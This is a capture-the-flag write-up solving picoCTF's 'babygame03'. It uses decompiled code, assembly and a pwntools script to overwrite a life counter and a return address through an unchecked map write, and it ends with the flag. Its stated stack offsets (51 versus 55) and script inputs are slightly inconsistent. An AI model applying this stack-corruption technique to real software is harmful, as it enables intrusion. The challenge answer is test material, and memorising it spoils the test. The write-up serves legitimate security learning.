

# babygame03
### Information
* Category: Binary Exploit
* Point: 400
* Level: Hard

### Description
Break the game and get the flag.
Welcome to BabyGame 03! Navigate around the map and see what you can find! Be careful, you don't have many moves. There are obstacles that instantly end the game on collision. The game is available to download [here](https://artifacts.picoctf.net/c_rhea/4/game). There is no source available, so you'll have to figure your way around the map.

### Hint

- Use 'w','a','s','d' to move around.
- There may be secret commands to make your life easy.

## Solution:

Open `game` in IDA, navigate to function `main` and decompile it. The function sets up a player, map and enters a loop which takes in user's input, calls `move_player` based on the input, increases `current_level` and `level_completed` when the player reaches (89, 29) and `current_level` isn't `4`. The loop exits when the player at (89, 29), `current_level` is `5` and `level_completed` is `4`, suggests that this game has `4` levels. At the end of the function, it calls a `win` function, passing `current_level` as an argument.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int current_level; // [esp+0h] [ebp-AACh] BYREF
  int player_y_pos; // [esp+4h] [ebp-AA8h] BYREF
  int player_x_pos; // [esp+8h] [ebp-AA4h]
  _BYTE map[2700]; // [esp+13h] [ebp-A99h] BYREF
  char input; // [esp+A9Fh] [ebp-Dh]
  int level_completed; // [esp+AA0h] [ebp-Ch]
  int *p_argc; // [esp+AA4h] [ebp-8h]

  p_argc = &argc;
  init_player(&player_y_pos);                   // {y = 4, x = 4, life = 50}
  current_level = 1;
  level_completed = 0;
  init_map(map, &player_y_pos, &current_level);
  print_map(map, &player_y_pos, &current_level);
  signal(2, (__sighandler_t)sigint_handler);
  do
  {
    input = getchar();
    move_player(&player_y_pos, input, (int)map, (int)&current_level);// map - 7 = life => (-7, 0)
    print_map(map, &player_y_pos, &current_level);
    if ( player_y_pos == 29 && player_x_pos == 89 && current_level != 4 )
    {
      puts("You win!\n Next level starting ");
      ++level_completed;
      ++current_level;
      init_player(&player_y_pos);
      init_map(map, &player_y_pos, &current_level);
    }
  }
  while ( player_y_pos != 29 || player_x_pos != 89 || current_level != 5 || level_completed != 4 );
  win(&current_level);
  return 0;
}
```

At `win` function, it checks if `current_level` is `5` and prints out the flag if so.

```c
int __cdecl win(int *current_level)
{
  int result; // eax
  char s[60]; // [esp+0h] [ebp-48h] BYREF
  FILE *stream; // [esp+3Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Please create 'flag.txt' in this directory with your own debugging flag.");
    fflush(stdout);
    exit(0);
  }
  fgets(s, 60, stream);
  result = *current_level;
  if ( *current_level == 5 )
  {
    printf(s);
    return fflush(stdout);
  }
  return result;
}
```

Inspecting `move_player`, we explore some commands such as `l` to change player's icon, `p` to auto solve the round. Beside that, it updates player's position based on the input and decreases `life` by `1`. However, the function has no boundary check, which is vulnerable to buffer underflow attack, means that we can move out side the map and modify the stack's values.

```c
_DWORD *__cdecl move_player(_DWORD *player, char input, int map, int current_level)
{
  _DWORD *player_1; // eax

  if ( (int)player[2] <= 0 )                    // life <= 0
  {
    puts("No more lives left. Game over!");
    fflush(stdout);
    exit(0);
  }
  if ( input == 'l' )
    player_tile = getchar();
  if ( input == 'p' )
    solve_round((_BYTE *)map, player, (int *)current_level);
  *(_BYTE *)(player[1] + map + 90 * *player) = '.';// x + map + 90 * y
  switch ( input )
  {
    case 'w':
      --*player;                                // --y
      break;
    case 's':
      ++*player;                                // ++y
      break;
    case 'a':
      --player[1];                              // --x
      break;
    case 'd':
      ++player[1];                              // ++x
      break;
  }
  if ( *(_BYTE *)(player[1] + map + 90 * *player) == 35 )// x + map + 90 * y
  {
    puts("You hit an obstacle!");
    fflush(stdout);
    exit(0);
  }
  *(_BYTE *)(player[1] + map + 90 * *player) = player_tile;// x + map + 90 * y
  player_1 = player;
  --player[2];                                  // --life
  return player_1;
}
```

We need to change our life to a huge number in order to make many moves without dying. Examining `init_player`, we see that the distance between `player_x_pos` and `life` is `4` (sizeof(int) = `4`).

```c
int *__cdecl init_player(int *p_n29)
{
  int *p_n29_1; // eax

  *p_n29 = 4;                                   // y
  p_n29[1] = 4;                                 // x
  p_n29_1 = p_n29;
  p_n29[2] = 50;                                // life
  return p_n29_1;                               // player = {y, x, life}
}
```

In `main` function, we can calculate the distance from `map` to `player_x_pos` is `11` bytes, subtract it by `4` and we have our distance between `map` and `life` which is `7`.

We know that the player's position is computed through a formular `x + map + 90 * y` (in `move_player` function). So to change `life` value, we need to make the equation becomes `map - 7`, which means that we have to move the player to (-7, 0). We will input the string `wwwwwaaaaaaaaaaas` to get to position (-7, 0), because `move_player` always writes `.` (`46` in demical) to our position when we attempt to make a move, so we don't want `life` to be `46` again after we move out, we will move right 3 times to make the `life` as big as possible (because sizeof(int) = `4`, when we move to `map - 7`, we just modify the first byte of the integer, moving right 3 times will let us fill all the remaining 3 bytes, maximizing our `life`). So our final input string is `wwwwwaaaaaaaaaaasddd`.


We see the obstacle `#` at the top of the map, we don't want to hit that, so we move down `1` times to stay as far as possible to it. After that we can safely use `p` to auto solve the round. Our full input is now `wwwwwaaaaaaaaaaasdddsp`. With this input, we can pass `3` levels easily. However, at function `main`, we see that it won't let us solve the round if `current_level` is `4`, so we have to pass the check somehow. View the function in assembly, we see that after calling `move_player` and `print_map`, it attempts to check for the player's position and `current_level`, we will need to skip the check and jump directly to address `08049970`, which will increase our level.

```asm
.text:08049927                 call    move_player
.text:0804992C                 add     esp, 10h
.text:0804992F                 sub     esp, 4
.text:08049932                 lea     eax, [ebp+current_level]
.text:08049938                 push    eax
.text:08049939                 lea     eax, [ebp+player_y_pos]
.text:0804993F                 push    eax
.text:08049940                 lea     eax, [ebp+map]
.text:08049946                 push    eax
.text:08049947                 call    print_map
.text:0804994C                 add     esp, 16
.text:0804994F                 mov     eax, [ebp+player_y_pos]
.text:08049955                 cmp     eax, 29
.text:08049958                 jnz     short loc_80499C7
.text:0804995A                 mov     eax, [ebp+player_x_pos]
.text:08049960                 cmp     eax, 89
.text:08049963                 jnz     short loc_80499C7
.text:08049965                 mov     eax, [ebp+current_level]
.text:0804996B                 cmp     eax, 4
.text:0804996E                 jz      short loc_80499C7
.text:08049970                 sub     esp, 0Ch
.text:08049973                 lea     eax, (aYouWinNextLeve - 804C000h)[ebx] ; "You win!\n Next level starting " <= jump to here
.text:08049979                 push    eax             ; s
.text:0804997A                 call    _puts
```

We know that when the `call` instruction is executed, it pushes a `return address` on the stack for the program to clean up the function's stack and continue executing other instructions. Since each time we make a move, `move_player` is called so we will change its return address from `0804992C` to `08049970`. To do this, we need to calculate the distance between `map` and `ebp + 4` (the address is `4` bytes in size and it is pushed last when `call` is executed), we will open `game` in `gdb` to get their addresses. Set a breakpoint at `move_player` function and `0x080498C8` (where `map` address is pushed on the stack, serving as `init_map` argument).


Type `run`, we see that breakpoint at `0x080498C8` is hit first. Since the instruction at `0x080498C8` is `push eax`, we will view its value. In this case, the `map` address is `0xffffc4af`.


Type `continue` for the program to run, make a move and the breakpoint at `move_player` should be hit. We get the address of `ebp + 4` is `0xffffc47c`.


Now we can calculate the distance between `ebp + 4` and `map`, which is `51`. Because the value is store in `Little Endian`, the value at `ebp + 4` is `2C 99 04 08` in hexadecimal. So we will move to `map - 51` to change `2C` to `70`, so the program could jump to `0x08049970`. Before that, we will buff our health first, then use `l` to change our player's icon to `\x70`, and move to (-51, 0) to patch the value. Here is our input for that `wwwwwaaaaaaaaaaasdddssssssddddddddww` + `l\x70` + `a * 55` + `wwww` (buff the health -> come back to (4, 4) -> go to (-51, 0)). We can see that we are now at level `5`.



At level `5`, we realize that we can't exit the loop because if we get to (89, 29), the `current_level` will increase above `5`, therefore trapping us infinitely. So we will use the same method at passing level `4` to jump to `0x080499E5` (which skips `player_y_pos != 29` and `player_x_pos != 89`), therefore exiting the loop.

```asm
.text:080499C7                 mov     eax, [ebp+player_y_pos]
.text:080499CD                 cmp     eax, 29 ; player_y_pos != 29
.text:080499D0                 jnz     loc_8049905
.text:080499D6                 mov     eax, [ebp+player_x_pos]
.text:080499DC                 cmp     eax, 89 ; player_x_pos != 89
.text:080499DF                 jnz     loc_8049905
.text:080499E5                 mov     eax, [ebp+current_level]
.text:080499EB                 cmp     eax, 5 ; current_level != 5
.text:080499EE                 jnz     loc_8049905
.text:080499F4                 cmp     [ebp+level_completed], 4 ; level_completed != 4
.text:080499F8                 jnz     loc_8049905
.text:080499FE                 sub     esp, 0Ch
.text:08049A01                 lea     eax, [ebp+current_level]
.text:08049A07                 push    eax
.text:08049A08                 call    win
```

However, the distance between `map` and `ebp + 4` is not `55` anymore due to us skipping the stack's cleanup. So there are `16` excess bytes, we need to include those in our distance. Here is our input for that `wwwwwaaaaaaaaaaasdddssssssddddddddww` + `l\xe5` + `a * 71` + `wwww`. Submit it and we got our flag `picoCTF{gamer_leveluP_334c3e00}`.


Btw, here is python script to do it because we can't change the player's icon to non-ascii character.

```py
from pwn import *

p = process("./game")

p.sendline(b"wwwwwaaaaaaaaaaasdsp" * 3)

p.sendline(b"wwwwwaaaaaaaaaaasdddssssssddddddddww")
p.sendline(b"l\x70")
p.sendline(b"a" * 55)
p.sendline(b"wwww")

p.sendline(b"wwwwwaaaaaaaaaaasdddssssssddddddddww")
p.sendline(b"l\xe5")
p.sendline(b"a" * 71)
p.sendline(b"wwww")

p.interactive()
```


